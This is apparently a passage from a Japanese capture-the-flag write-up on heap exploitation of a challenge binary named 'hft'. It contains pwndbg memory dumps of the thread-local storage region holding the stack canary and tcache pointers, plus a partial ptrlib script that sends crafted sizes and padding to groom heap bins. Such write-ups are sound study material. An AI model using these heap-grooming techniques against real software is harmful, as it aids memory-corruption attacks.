 ```
44df:226f8│    0x7ffff7d906f8 —▸ 0x55555555a010 ◂— 0x0
44e0:22700│    0x7ffff7d90700 ◂— 0x0
44e1:22708│    0x7ffff7d90708 —▸ 0x7ffff7facc80 ◂— 0x0
44e2:22710│    0x7ffff7d90710 ◂— 0x0
... ↓       5 skipped
44e8:22740│    0x7ffff7d90740 ◂— 0x7ffff7d90740
44e9:22748│    0x7ffff7d90748 —▸ 0x7ffff7d91160 ◂— 0x1
44ea:22750│    0x7ffff7d90750 —▸ 0x7ffff7d90740 ◂— 0x7ffff7d90740
44eb:22758│    0x7ffff7d90758 ◂— 0x0
44ec:22760│    0x7ffff7d90760 ◂— 0x0
44ed:22768│    0x7ffff7d90768 ◂— 0xfc4ebc0b86d9f900
~~~
pwndbg> vmmap 0x7ffff7d906f8
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x55555555a000     0x55555559d000 rw-p    43000      0 [heap]
►   0x7ffff7d6e000     0x7ffff7d93000 rw-p    25000      0 [anon_7ffff7d6e] +0x226f8
    0x7ffff7d93000     0x7ffff7dbb000 r--p    28000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/libc.so.6
```
これはTLS(Thread Local Storage)とよばれるスレッド固有の領域のようだ。  
マスターカナリアや`tcachebins`の管理領域へのポインタがあるらしい。  
うまく`tcachebins`を作り管理領域を見てやる。  
```python
from ptrlib import *

elf = ELF("./hft")
libc = ELF("./libc.so.6")

sock = Process("./hft")

sock.sendafter(":[PKT_RES]\n", p64(0xD28))
sock.sendline(p64(0x0) + b"A" * 0xD18 + p32(0x41))

sock.sendafter(":[PKT_RES]\n", p64(0x19))
sock.sendline(p64(0x0))

sock.sendafter(":[PKT_RES]\n", p64(0x22000))

sock.sh()
```
```bash
$ sudo gdb -q -p $(pidof hft)
~~~
pwndbg> bins
~~~
tcachebins
0x20 [  1]: 0x55555555afd0 ◂— 0x0
fastbins
empty
unsortedbin
empty
smallbins
empty
largebins
empty
~~~
pwndbg> telescope 0x7ffff7d6d000 20000
00:0000│    0x7ffff7d6d000 ◂— 0x0
01:0008│    0x7ffff7d6d008 ◂— 0x23002
02:0010│ r9 0x7ffff7d6d010 ◂— 0x22000
03:0018│    0x7ffff7d6d018 ◂— 0x0
... ↓       18130 skipped
```